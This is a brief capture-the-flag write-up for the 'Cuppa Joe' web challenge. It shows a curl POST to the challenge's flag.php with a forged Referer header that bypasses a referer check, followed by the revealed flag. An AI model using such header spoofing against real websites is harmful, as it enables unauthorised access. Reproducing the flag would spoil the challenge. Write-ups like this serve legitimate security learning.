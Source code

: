# Cuppa Joe

## Objetivo

A new coffee shop is opening up in my neihborhood! It's called Cuppa Joe and I can't wait to check it out! It would ahem be a real shame if someone were to ahem hack their website and, hypothetically, get their secret flag. mhsctf-cuppajoe.0xmmalik.repl.co (you may need to wait for the site to wake up)

## Solucion
```bash    

curl -X POST https://mhsctf-cuppajoe.0xmmalik.repl.co/flag.php -H 'Referer:https://mhsctf-cuppajoe.0xmmalik.repl.co'

Here's a flag: flag{c0ff33_be4nz}
```

## Flag
```
flag{c0ff33_be4nz}
```

## Referencias